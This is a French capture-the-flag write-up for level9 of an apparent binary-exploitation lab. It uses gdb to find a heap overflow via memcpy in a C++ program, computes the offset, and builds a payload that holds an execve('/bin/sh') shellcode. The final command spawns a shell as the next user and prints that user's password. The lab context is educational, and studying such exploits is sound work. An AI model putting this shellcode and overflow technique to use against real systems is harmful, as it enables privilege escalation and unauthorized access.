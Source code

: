 
# Level 9

En ouvrant level9 avec cuter on ce rend comp que le code est en c++ on remarque egalement qu'il n'y a ni `cat .pass` ni de `bin/sh` nous allons donc utiliser un shell code.
Pour ce level nous allons utiliser `gdb` pour voir les case memoir utiliser. Pour commencer on vas chercher a savoir quelle fonction son appeler
```
(gdb) info function
All defined functions:

Non-debugging symbols:
[...]
0x08048510 memcpy
0x08048510 memcpy@plt
[...]
---Type <return> to continue, or q <return> to quit---
```
on peut voir que le programme appel `memecpy` que nous pouvont overflow.
il nous reste a trouver a quelle address `segfault` le programme, nous allons donc tester avec 200 charater.
```
(gdb) run $(python -c 'print "a" * 200')
Starting program: /home/user/level9/level9 $(python -c 'print "a" * 200')

Program received signal SIGSEGV, Segmentation fault.
  0x08048682 in main ()
```
On peut voir que le programme `segfault`, on vas maintenant chercher a trouver l'offset, en entrant l'adresse on du `segfault` dans un buffer flow generator on ne trouve rien on vas donc chercher a savoir ou est stocker la chaine
```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[...]
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) ir
Undefined command: "ir".  Try "help".
(gdb) i r
eax            0x41414141       1094795585
ecx            0x4141   16705
edx            0x804a0aa        134521002
ebx            0x804a078        134520952
esp            0xbffff670       0xbffff670
ebp            0xbffff698       0xbffff698
esi            0x0      0
edi            0x0      0
eip            0x8048682        0x8048682 <main+142>
eflags         0x210283 [ CF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
On peut voir qu'elle est dans *eax* car 'A' = 41 donc il suffit de faire la meme chose avec le paterne, de le mettre dans le generateur et il nous sort un offset de *108*. On a vut que le programe `segfault` bien a l'adresse `0x08048682`, il nous reste a voir a quelle instruction elle corespond.
```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>: push %ebp
   0x080485f5 <+1>: mov %esp,%ebp
   0x080485f7 <+3>: push %ebx
   0x080485f8 <+4>: and $0xfffffff0,%esp
   0x080485fb <+7>: sub $0x20,%esp
   0x080485fe <+10>: cmpl $0x1,0x8(%ebp)
   0x08048602 <+14>: jg 0x8048610 <main+28>
   0x08048604 <+16>: movl $0x1,(%esp)
   0x0804860b <+23>: call 0x80484f0 <_exit@plt>
   0x08048610 <+28>: movl $0x6c,(%esp)
   0x08048617 <+35>: call 0x8048530 <_Znwj@plt>
   0x0804861c <+40>: mov %eax,%ebx
   0x0804861e <+42>: movl $0x5,0x4(%esp)
   0x08048626 <+50>: mov %ebx,(%esp)
   0x08048629 <+53>: call 0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>: mov %ebx,0x1c(%esp)
   0x08048632 <+62>: movl $0x6c,(%esp)
   0x08048639 <+69>: call 0x8048530 <_Znwj@plt>
   0x0804863e <+74>: mov %eax,%ebx
   0x08048640 <+76>: movl $0x6,0x4(%esp)
   0x08048648 <+84>: mov %ebx,(%esp)
   0x0804864b <+87>: call 0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>: mov %ebx,0x18(%esp)
   0x08048654 <+96>: mov 0x1c(%esp),%eax
   0x08048658 <+100>: mov %eax,0x14(%esp)
   0x0804865c <+104>: mov 0x18(%esp),%eax
   0x08048660 <+108>: mov %eax,0x10(%esp)
   0x08048664 <+112>: mov 0xc(%ebp),%eax
   0x08048667 <+115>: add $0x4,%eax
   0x0804866a <+118>: mov (%eax),%eax
   0x0804866c <+120>: mov %eax,0x4(%esp)
   0x08048670 <+124>: mov 0x14(%esp),%eax
   0x08048674 <+128>: mov %eax,(%esp)
   0x08048677 <+131>: call 0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>: mov 0x10(%esp),%eax
   0x08048680 <+140>: mov (%eax),%eax
=> 0x08048682 <+142>: mov (%eax),%edx
   0x08048684 <+144>: mov 0x14(%esp),%eax
   0x08048688 <+148>: mov %eax,0x4(%esp)
   0x0804868c <+152>: mov 0x10(%esp),%eax
   0x08048690 <+156>: mov %eax,(%esp)
   0x08048693 <+159>: call *%edx
   0x08048695 <+161>: mov -0x4(%ebp),%ebx
   0x08048698 <+164>: leave
   0x08048699 <+165>: ret
End of assembler dump.
```
On peut voir que le `segfault` lors du mov de l'edx dans l'eax, On cherche alors ou la string est stocke, on va donc creer un breakpoint a l'adresse apres le setAnnotation ou il y a un memcpy On relance le programme avec une string qui fonctionne comme 'aaaa', le breakpoint s'enclenche il nous reste donc qu'a print les valeurs que l'on veut
```
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) run 'aaaa'
Starting program: /home/user/level9/level9 'aaaa'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
  0x804a00c: 0x61616161
(gdb) x $edx
  0x804a010: 0x00000000
(gdb)
```
Il nous reste meinenant qu'a cree le payload avec le shellcode qui nous avons deja utiliser dans les exercie precedant :
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
ce qui nou donne
> L'adresse de l'edx (4) + shellcode (21) + offset (83) + l'adresse de eax (4)

il ne nous reste plus qu'a lexecuter :
```
level9@RainFall:~$ ./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'a' * 83 + '\x0c\xa0\x04\x08'")
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$
```